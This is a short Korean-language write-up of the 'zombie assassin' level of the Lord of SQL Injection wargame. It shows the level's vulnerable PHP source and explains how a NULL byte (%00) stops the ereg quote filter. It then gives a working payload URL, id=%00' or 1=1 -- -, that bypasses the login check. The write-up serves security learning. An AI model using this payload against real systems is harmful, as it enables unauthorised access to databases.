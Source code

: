 # Lord of SQL Injection No.16 - zombie assassin
## 문제 출제 의도 
ereg의 취약점을 이용하여 원하는 값을 전달할 수 있는지 확인한다.
## 소스 코드 분석
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(@ereg("'",$_GET[id])) exit("HeHe"); 
  if(@ereg("'",$_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>
```
~~~
if(@ereg("'",$_GET[id])) exit("HeHe"); 
if(@ereg("'",$_GET[pw])) exit("HeHe"); 
~~~
+ ereg함수는 NULL값을 만나게 되면 거기서 필터링을 중지한다.
## Solution
1. ereg함수 무효화
~~~
http://los.eagle-jump.org/zombie_assassin_14dfa83153eb348c4aea012d453e9c8a.php?id=%00' or 1=1 -- -
~~~
+ %00는 NULL로 ereg함수의 탐색을 중지시킨다.